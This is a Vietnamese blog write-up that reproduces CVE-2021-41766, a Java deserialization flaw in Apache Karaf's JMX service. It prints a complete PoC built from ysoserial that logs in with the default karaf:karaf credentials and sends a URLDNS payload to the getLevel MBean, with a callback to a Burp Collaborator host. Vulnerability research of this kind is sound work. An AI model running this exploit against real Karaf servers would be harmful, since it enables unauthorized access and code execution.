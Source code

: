 Xét ở góc độ cách khai thác của CVE này thì đây không phải là một CVE thú vị và đáng được lưu tâm. Tuy nhiên, trong quá trình nghiên cứu CVE này, mình gặp khá nhiều khó khăn để tái hiện và phân tích lỗi này. Tính tới thời điểm viết bài thì chưa có PoC cho CVE-2021-41766, cũng như bài phân tích về CVE này, nên có thể coi đây là bài phân tích 1-day (đầu tiên) của mình :D 
# 0x01 Tổng quan về CVE-2021-41766
Theo như mô tả trên cơ sở dữ liệu của NIST về [CVE-2021-41766](https://nvd.nist.gov/vuln/detail/CVE-2021-41766), CVE này liên quan tới Java Management Extension (JMX). Vì vậy, trước khi đi sâu hơn vào CVE này, các bạn nên tìm hiểu thêm về JMX và MBean service nữa nhé. Mình sẽ để các link mình đã dùng để tìm hiểu ở cuối bài.

Thông tin mấu chốt giúp mình tái tạo PoC cho CVE này là
> Whereas the default JMX implementation is hardened against unauthenticated deserialization attacks, the implementation used by Apache Karaf is not protected against this kind of attack. 

Như vậy, mình có thể rút ra mấy ý như sau:
* Trước đó, có triển khai JMX mặc định (default JMX implementation) từng bị tấn công bởi một kỹ thuật X, dẫn tới bị khai thác lỗ hổng unauthenticated deserialization. Default JMX implementation đã vá lỗi này.
* Tuy nhiên, khi Apache Karaf triển khai JMX, Apache Karaf không áp dụng các cơ chế để vá lỗi trên, dẫn tới phần triển khai JMX của Apache Karaf có thể bị tấn công bởi kỹ thuật X. Điều đó nghĩa là, nếu mình tìm được kỹ thuật X đã từng dùng để khai thác cơ chế triển khai JMX mặc định, thì mình cũng có thể khai thác triển khai JMX của Apache Karaf với cơ chế tương tự!

(Và bằng một phép màu nào đó mình mất gần 1 tuần mới để ý đến đoạn này 😭)
# 0x02 Dựng môi trường debug cho Apache Karaf
Thực sự đến giờ mình vẫn chưa hiểu rõ Apache Karaf là gì, nên mình sẽ chỉ viết lại quá trình dựng môi trường debug như nào thôi đã vậy.

Theo như Apache Karaf [Advisory](https://karaf.apache.org/security/cve-2021-41766.txt) cho CVE-2021-41766, các phiên bản trước 4.3.6 sẽ bị ảnh hưởng bởi lỗi này. Vì vậy, mình tải Apache Karaf phiên bản 4.3.5 để dựng môi trường debug. Source code của Apache Karaf mình download trên github https://github.com/apache/karaf/releases/tag/karaf-4.3.5

Làm theo [hướng dẫn](https://blog.csdn.net/mn960mn/article/details/47810981) của Xixia Yipintang, mình mở file `bin\karaf.bat` lên và thêm dòng `set KARAF_DEBUG=true`
![image.png](https://images.viblo.asia/cd276237-496e-4d3e-b9e6-2427cc431c5e.png)

Chạy file `bin\karaf.bat`. Để ý Apache Karaf nhận kết nối cho debug từ xa thông qua cổng 5005
![image.png](https://images.viblo.asia/4470a96b-2629-4945-8536-a5fd4e14bfae.png)

Để debug Apache Karaf từ xa, mình dùng Remote JVM Debug của InteliJ IDEA. Cấu hình mặc định của Remote JVM Debug (mình đặt tên là remoteDebug) đã kết nối tới cổng 5005, vì vậy mình để nguyên.
![image.png](https://images.viblo.asia/08e8064c-9fca-409a-824f-6a6f62991e1e.png)

Chạy remoteDebug trong IDEA. Nếu hiện thông báo kết nối như hình dưới dây tức là đã set up debug cho Apache Karaf thành công
![image.png](https://images.viblo.asia/7bbd5818-2db8-411d-ab85-66440eb81e54.png)

# 0x03 Phân tích lỗ hổng
Như đã phân tích ở phần 1, mình bắt đầu đi tìm hiểu các cách khai thác JMX Implementation và tìm thấy một bài khá chi tiết https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/. Các bạn có thể tự đọc mục **Deserialization on the JMX/MBean level** rồi tự phân tích lỗ hổng này nhé.

Có thể một ngày đẹp trời nào đó (sau khi viết xong đồ án) thì mình sẽ quay lại để bổ sung nốt phần này.
# 0x04 Tái hiện lỗ hổng
Cách khai thác lỗ hổng này đã được commit ở `ysoserial/exploit/JMXInvokeMBean.java`. Để đơn giản quá trình khai thác, mình mở nguyên `ysoserial` project trong IDEA, rồi sửa lại file `JMXInvokeMBean.java` để khai thác CVE-2021-41766.

## Kết nối đến Apache Karaf server

Để sử dụng `JMXInvokeMBean`, mình cần 4 đối số
* `host`: địa chỉ máy chủ Apache Karaf. Ở đây, mình tái hiện lỗ hổng trên localhost nên `host` cũng là `localhost`.
* `port`: cổng JMX RMI service của máy chủ Apache Karaf. Cổng dịch vụ mặc định của RMI luôn là `1099`
* `payload_type`: tên loại ysoserial payload dùng để khai thác lỗ hổng deserialization. Trong bài này, mình sử dụng URLDNS payload
* `payload_arg`: các đối số (argument) của loại ysoserial payload tương ứng. Ở đây mình lấy URL của Burp Collaborator Client.

Các thông tin về `host `và `port` sẽ được dùng để khởi tạo một `JMXServiceURL`. `serviceUrl` của Apache Karaf được cấu hình ở file `etc/org.apache.karaf.management.cfg`, có giá trị mặc định là `service:jmx:rmi:///jndi/rmi://localhost:1099/karaf-root`. 

Tuy nhiên, khi mình thử connect tới Apache Karaf server thì chương trình báo lỗi về yêu cầu thêm credentials. Credentials của Apache Karaf được lưu ở file `etc/users.properties`, có giá trị mặc định là `karaf:karaf`.

Với tất cả các thông tin trên, mình có thể sửa code trong `JMXInvokeMBean.java` để kết nối đến JMX RMI service của Apache Karaf server. Đoạn code mình sửa các thông tin liên quan để kết nối tới Apache Karaf như sau:
```java
args = new String[4];
args[0] = "localhost";
args[1] = "1099";
args[2] = "URLDNS";
args[3] = "http://8x6r511e351r0z6px6oavfxdu40vok.burpcollaborator.net";

HashMap environment = new HashMap();
String[] credentials = new String[] {"karaf", "karaf"};
environment.put (JMXConnector.CREDENTIALS, credentials);

JMXServiceURL url = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://" + args[0] + ":" + args[1] + "/karaf-root");

JMXConnector jmxConnector = JMXConnectorFactory.connect(url, environment);
MBeanServerConnection mbeanServerConnection = jmxConnector.getMBeanServerConnection();
```

## Khai thác JMX RMI service của Apache Karaf: `getLevel`

Apache Karaf có 1 JMX service khá giống với `getLoggingLevel` của JMX service mặc định là `getLevel`. Mở `jconsole` lên vào connect vào Apache Karaf, mình có thể thấy hàm này cũng nhận argument kiểu `String` và cũng trả về log level.
![image.png](https://images.viblo.asia/42a03850-23e6-4c73-86a2-fc22e9b56cbc.png)

![image.png](https://images.viblo.asia/b4b763f5-2cd6-42b8-a2ff-40c3d3d3198a.png)

Đến đoạn này, mình gần như là sẽ mô phỏng (nói dân dã thì gọi là bắt chước) cách khai thác `getLoggingLevel` của JMX mặc định. Một cách dễ dàng, mình có được các thông tin của (MBean) service này như sau:

* (MBean) service name: `org.apache.karaf:type=log,name=root`
* Operation name: `getLevel`

Với các thông tin trên, mình sửa nốt phần code để gửi malicious object tới Apache Karaf trong `JMXInvokeMBean.java` như sau:
```java
// create the payload
Object payloadObject = Utils.makePayloadObject(args[2], args[3]);   
ObjectName mbeanName = new ObjectName("org.apache.karaf:type=log,name=root");

mbeanServerConnection.invoke(mbeanName, "getLevel", new Object[]{payloadObject}, new String[]{String.class.getCanonicalName()});
```

## CVE-2021-41766 PoC
Sau khi sửa code như 2 phần trên, mình có được file PoC của CVE-2021-41766 như sau:
```java
public class JMXInvokeMBean {

	public static void main(String[] args) throws Exception {
	
//		if ( args.length < 4 ) {
//			System.err.println(JMXInvokeMBean.class.getName() + " <host> <port> <payload_type> <payload_arg>");
//			System.exit(-1);
//		}
		args = new String[4];
		args[0] = "localhost";
		args[1] = "1099";
		args[2] = "URLDNS";
		args[3] = "http://8x6r511e351r0z6px6oavfxdu40vok.burpcollaborator.net";

		HashMap environment = new HashMap();
		String[] credentials = new String[] {"karaf", "karaf"};
		environment.put (JMXConnector.CREDENTIALS, credentials);

		JMXServiceURL url = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://" + args[0] + ":" + args[1] + "/karaf-root");

		JMXConnector jmxConnector = JMXConnectorFactory.connect(url, environment);
		MBeanServerConnection mbeanServerConnection = jmxConnector.getMBeanServerConnection();

		// create the payload
		Object payloadObject = Utils.makePayloadObject(args[2], args[3]);   
		ObjectName mbeanName = new ObjectName("org.apache.karaf:type=log,name=root");

		mbeanServerConnection.invoke(mbeanName, "getLevel", new Object[]{payloadObject}, new String[]{String.class.getCanonicalName()});

		//close the connection
		jmxConnector.close();
    }
}
```
Sau khi chạy file PoC, Burp Collborator Client log được 1 lookup request, cho thấy lỗ hổng java deserialization đã bị khai thác thành công
![image.png](https://images.viblo.asia/42ef7ff9-ecb6-4367-b839-85249489043a.png)
# 0x05 Kết luận
Tuy đây là 1 CVE sử dụng cơ chế khai thác cũ nhưng để tái hiện CVE này đòi hỏi khá nhiều kiến thức mới lạ (ít nhất là đối với mình). Kể ra bài này mình cũng không phải tự viết PoC mà chỉ sửa lại mấy cái PoC cũ cho khớp nên không hẳn là 1 bài 1-day hoàn chỉnh. Mong là sáp tới mình có thể viết những bài phân tích 1-day theo đúng nghĩa của nó :D

# Nguồn tham khảo
1. https://www.baeldung.com/java-management-extensions
2. https://subscription.packtpub.com/book/application-development/9781783985081/1/ch01lvl1sec13/using-jmx-to-monitor-and-administer-apache-karaf
3. https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/
4. https://www.google.com/url?q=https://blog.csdn.net/mn960mn/article/details/47810981&sa=D&source=editors&ust=1651227249040661&usg=AOvVaw3QOSNDG0bA3H79fYAmVLdq